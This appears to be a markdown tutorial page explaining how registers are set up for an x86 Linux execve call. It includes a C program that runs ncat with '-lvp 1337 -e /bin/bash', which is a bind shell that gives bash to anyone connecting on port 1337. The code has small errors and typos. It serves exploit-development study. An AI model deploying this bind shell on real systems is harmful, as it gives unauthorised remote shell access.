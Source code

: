 ## Allocate in registry specific value (syscall, strings, argument)!

Before make the program in C language, we must keep in mind that each register must have values specific to each parameter used by the ncat. For Example:
```sh
EAX = 11 (this value at EAX register represents system call for execve)
EBX = "/usr/bin/ncat" (char *)
ECX = arguments (char **)
EDX = env (char **)
ESI contain the Index Source ,specified for strings
```
- EAX need to containt the syscall number in our case 11.
- EBX need to containt the path and ncat program.
- ECX store all the argument.
- EDX allocate the environment.
- ESI index source.

Now that we understand this, we will be able to make our own program in the C computer language.
```c
#include <"stdio.h">
#include <"unistd.h">

int main()
{
char *env[1] = {NULL};
char *arguments[7]= { "/usr/bin/ncat",
"-lvp",
"1337",
"-e",
"/bin/bash",
NULL
};
execve("/usr/bin/ncat", arguments, env);
}
```
We can observ inside the `main()`, an array of character pointers `env` is declared and initialized with a single `NULL` value. This array is used to pass environment variables to the `execve()` function.

Another array of character pointers arguments is declared and initialized with command-line arguments to be passed to the execve() function. Here's a breakdown of the values:
- `/usr/bin/ncat`: The path to the ncat command-line utility.
- `-lvp`: Flags/options to be passed to ncat.
- `1337`: A port number to listen on.
- `-e`: An option to execute a program.
- `/bin/bash`: The path to the bash shell.
- `NULL`: A NULL terminator indicating the end of the arguments array.

The `execve()` function is called with three arguments:

- `/usr/bin/ncat`: The path to the executable file to be executed.
- `arguments`: The array of command-line arguments.
- `env`: The array of environment variables.
